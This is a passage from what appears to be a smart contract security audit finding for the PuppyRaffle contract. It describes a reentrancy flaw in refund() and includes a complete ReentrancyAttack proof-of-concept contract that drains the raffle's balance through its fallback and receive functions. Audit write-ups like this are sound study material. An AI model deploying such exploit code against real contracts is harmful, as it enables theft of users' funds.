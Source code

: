 ```solidity
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "Only the player can refund");
    require(playerAddress != address(0), "Already refunded or inactive");

    payable(msg.sender).sendValue(entranceFee); // 🔴 External call before state change
    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

### Impact

- **Loss of Funds**: Malicious actors can recursively trigger refund() to empty the contract balance.
- **Loss of trust**: Users may lose confidence in the raffle due to exploitability.

### Proof of Concept

If a malicoius actor deploys their own contract that can use `enterRaffle` during reentrancy, they can drain all funds from the `Raffle` smart contract.
To replicate this attack, add the `MalicousAttack` smart contract to the `PuppyRaffleTest` and run the test provided below.

**Attack flow**

1. User enters the raffle
2. Attacker sets up a contract with a `fallback` function that calls `PuppyRaffle::refund`
3. Attacker enters the raffle
4. Attacker calls `PuppyRaffle::refund` from their attack contract, draining the contract balance

``` solidity
contract ReentrancyAttack {
    PuppyRaffle public puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(address _puppyRaffle) {
        puppyRaffle = PuppyRaffle(_puppyRaffle);
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealFunds() internal {
        uint256 balance = address(puppyRaffle).balance;
        if (balance > 0) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    fallback() external payable {
        _stealFunds();
    }

    receive() external payable {
        _stealFunds();
    }
}
```